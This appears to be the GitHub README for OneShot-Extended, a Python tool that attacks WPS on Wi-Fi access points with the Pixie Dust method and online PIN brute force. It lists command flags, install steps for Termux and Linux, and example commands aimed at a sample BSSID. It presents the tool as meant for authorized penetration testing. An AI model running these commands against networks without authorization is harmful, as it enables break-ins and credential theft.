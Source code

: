 # Overview
**OneShot-Extended** performs the [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without the requirement of monitor mode.

This is an improved version of the original OneShot

## Advantages over original OneShot
 - Highlighting of a vulnerable WPS version (1.0) in the scanner
 - Ability to save the AP right into the Network Manager of your system
 - Ability to clear the screen every scan
 - Improved Android support
 - Works on modern python versions

# Features
 - [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack)
 - Offline WPS PIN generating algorithm
 - [Online WPS bruteforce](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf)
 - Wi-Fi scanner with highlighting based on iw;
 - Ability to write to a file/save to network manager

# Requirements
 - Python 3.8 and above
 - [WPA Supplicant](https://www.w1.fi/wpa_supplicant/)
 - [Pixiewps](https://github.com/wiire-a/pixiewps)
 - [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw)

# Usage
```
Required arguments: 
  -i, --interface INTERFACE    : Name of the interface to use

Optional arguments:
  -b, --bssid BSSID            : BSSID of the target AP
  -p, --pin PIN                : Use the specified pin (arbitrary string or 4/8 digit pin)
  -K, --pixie-dust             : Run Pixie Dust attack
  -F, --pixie-force            : Run Pixiewps with --force option (bruteforce full range)
  -B, --bruteforce             : Run online bruteforce attack
  --pbc, --push-button-connect : Run WPS push button connection

Advanced arguments:
  -d, --delay <n>              : Set the delay between pin attempts
  --vuln-list VULN_LIST        : Use custom file with vulnerable devices list

  -X, --show-pixie-cmd         : Always print Pixiewps command
  -w, --write                  : Write credentials to the file on success
  -s, --save                   : Save the AP to network manager on success
  -l, --loop                   : Run in a loop
  -c, --clear                  : Clear the screen on every wi-fi scan
  -r, --reverse-scan           : Reverse order of networks in the list of networks. Useful on small displays
  --mtk-wifi                   : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit (for internal Wi-Fi adapters implemented in MediaTek SoCs). 
                               : Turn off Wi-Fi in the system settings before using this.
  --iface-down                 : Down network interface when the work is finished
  -v, --verbose                : Verbose output
  -h, --help                   : show this help message and exit
 ```

# Installation
## Termux
**Please note that root access is required.**  

**Installing requirements**
 ```shell
 pkg install -y root-repo
 pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
 ```
**Getting OneShot-Extended**
 ```shell
 cd ~
 git clone --depth 1 https://github.com/chickendrop89/OneShot-Extended ose
 ```
**Running**
 ```shell
 sudo python ose/ose.py -i wlan0
 ```

## Linux distributions 
**Install these packages through your distro's package manager:**
 ```shell
 python3 wpa-supplicant iw wget pixiewps
 ```
 
**Getting OneShot**
 ```shell
 cd ~
 git clone --depth 1 https://github.com/raisul587/OneShot-Extended ose
 ```
**Running**
 ```shell
 sudo python ose/ose.py -i wlan0
 ```

-----

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```shell
 sudo python3 ose.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```shell
 sudo python3 ose.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```shell
 sudo python3 ose.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```shell
 sudo python3 ose.py -i wlan0 --pbc
 ```

-----

## Troubleshooting
**"RTNETLINK answers: Operation not possible due to RF-kill"**
 Just run:
- ```sudo rfkill unblock wifi```

**"Device or resource busy (-16)"**
- Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot-Extended with ```--iface-down``` argument.

**The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC**
- Try running Oneshot-Extended with the `--mtk-wifi` flag to initialize Wi-Fi device driver.

-----

# Acknowledgements
## Special Thanks
* `kimocoder, drygdryg, chickendrop89` for extended implementation 
* `rofl0r` for initial implementation;
* `Monohrom` for testing, help in catching bugs, some ideas;
* `Wiire` for developing Pixiewps.

-----

> [!WARNING] 
> This tool is intended for educational and authorized penetration testing purposes only.
> It is not designed for, and must not be used for, illegal activities such as hacking, unauthorized access, or causing damage to systems or networks.
> By using this tool, you agree to use it responsibly and ethically, and to comply with all applicable laws and regulations.
> The developer assumes no responsibility for any misuse of this tool.

